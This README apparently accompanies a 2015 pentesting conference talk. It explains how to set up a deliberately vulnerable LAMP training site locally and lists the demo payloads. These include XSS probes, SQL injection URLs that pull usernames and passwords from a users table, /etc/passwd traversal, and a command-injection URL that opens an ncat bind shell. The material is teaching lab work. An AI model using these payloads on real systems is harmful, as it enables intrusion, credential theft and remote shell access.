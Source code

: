 #Spanking The Monkey (or how pentesters can do it better!)

In today’s mainstream penetration testing and Red Team environments we feel that the teams are relying too much on noisy scanners. In part making for a large group of scanner monkeys. This talk is bringing back old school ways with a new flavor, a new flair to prove that those techniques still work in the majority of engagements that many of us are involved in. The problem with many tools is not only how noisy they can be, but also the amount of logic and decision making that goes on under the hood without any human input. 

*****
##Index
* Recorded Talks
* Follow Along
* Resources

*****
###Recorded Talks
####SecKC May 2015 (Kansas City, Kansas)

<a href="http://www.youtube.com/watch?feature=player_embedded&v=_d6E__jmYdA" target="_blank"><img src="http://img.youtube.com/vi/_d6E__jmYdA/0.jpg" 
alt=“SecKC” width=“560” height=“315” border=“0” /></a> 

####DerbyCon 5.0 (Louisville, Kentucky)

<a href="http://www.youtube.com/watch?feature=player_embedded&v=sQTiLD32U70" target="_blank"><img src="http://img.youtube.com/vi/sQTiLD32U70/0.jpg" 
alt=“SecKC” width=“560” height=“315” border=“0” /></a> 

*****
###Follow Along
Follow along with us or play around with the website.  This section will describe how to get the vulnerable website up and running on your own virtual machine.  

The configuration directions are for Ubuntu Desktop 14.04.3, but any Linux system will work.

####Install Ubuntu as a Virtual Machine

We’ll leave this part up to you.  Plenty of guides exist on the internet.  To help get you started some links are below:

* [Ubuntu Desktop] (http://www.ubuntu.com/download/desktop)
* [Virtual Box] (https://www.virtualbox.org/wiki/Downloads)
* [VMware Player] (https://www.vmware.com/products/player)

####Install Latest Updates
After getting Ubuntu installed, we will want to ensure that it is up-to-date
```
sudo apt-get update
sudo apt-get upgrade
sudo apt-get dist-upgrade
reboot
```

####Install LAMP stack
The Linux, Apache, MySQL, PHP (LAMP) stack is a popular open source web platform commonly used to run dynamic web sites and servers.  Since the stack is so popular, we decided to pick on it.

On Ubuntu the LAMP stack can be installed either separately or with the special package lamp-server

```
sudo apt-get install lamp-server^ -y
```

(Mind the caret (^) at the end)

The install process for mysql-server will prompt you to enter a password for the “root” user of the database.  This will be the master administrator password and should be different then the password you use for your user account.  

####Setup website

Now comes the fun part.  Installing the www.angry_monkey.com website.  To do this we will clone the git repo and move the files around. 

First we need to make sure that git is installed
```
sudo apt-get install git -y
```

Next pick a directory and clone the repo.  
```
cd ~/Desktop
git clone https://github.com/chetbishop/Spanking-The-Monkey.git
```

Populate the database, entering the password you setup earlier when prompted.
```
cd Spanking-The-Monkey/WebSite
mysql -u root -p < Database/schema.sql
```

Copy the Apache2 config file
```
sudo cp Apache\ Config/default /etc/apache2/sites-enabled/000-default.conf
```

Copy the website content
```
sudo cp -r Content/vulnsite/ /var/www/
```

Enable mod_rewrite in Apache
```
sudo a2enmod rewrite
```

Restart Apache
```
sudo service apache2 restart
```

####Update the /etc/hosts file
Since we are running the website locally, and not using a DNS server, we need to tell Ubuntu how to reach www.angry_monkey.com

Open the /etc/hosts file with your favorite text editor
```
sudo vi /etc/hosts
```

Add the following lines to the bottom of the file
```
#www.angry_monkey vulnerable site
127.0.0.1 www.angry_monkey.com
```

You will also need ncat to exploit the Command Injection vuln. ncat is inside the nmap package in Ubuntu.
```
sudo apt-get install nmap
```

####Go Have Fun
You should now be able to open your web browser and go to [www.angry_monkey.com](www.angry_monkey.com)

The following probes and commands are used during the demo to test and exploit the different vulnerabilities present on the website.

**Cross-Site Scripting**
```
>'>"><owl>

aaa
1337
<b>aaa
<script>alert(1)</script>
<script>alert(location.host)</script>
```

**SQL Injection**
```
')\

curl www.angry_monkey.com/profiles/42\/antonio
www.angry_monkey.com/profiles/42\/ OR 1 -- -
www.angry_monkey.com/profiles/42\/%09OR%091--%09-

www.angry_monkey.com/profiles/42\/%09UNION%09SELECT%091,2,3--%09-
www.angry_monkey.com/profiles/42\/%09UNION%09SELECT%091,2,3,4--%09-

curl "www.angry_monkey.com/profiles/42\/%09AND%09(SELECT%09*%09FROM%09(SELECT%09*%09FROM%09users%09JOIN%09users%09b%09using%09(id,us3rn4m3))%09a)--%09-"
curl "www.angry_monkey.com/profiles/42\/%09AND%09(SELECT%09*%09FROM%09(SELECT%09*%09FROM%09users%09JOIN%09users%09b%09using%09(id,us3rn4m3,twitter))%09a)--%09-"

curl "www.angry_monkey.com/profiles/42%5c/OR%09POLYGON((SELECT(1)FROM(SELECT(us3rn4m3),(PassW0rdColuMn)FROM(users)WHERE(id=42))x))--%09-"
```

**Command Injection**
```
/etc/passwd
../../../../../../../etc/passwd
;echo 111
%26%26echo 111

http://www.angry_monkey.com/index.php?doc=us.txt%26%26ncat -c sh -l -p 3333%26
ncat www.angry_monkey.com 3333
```
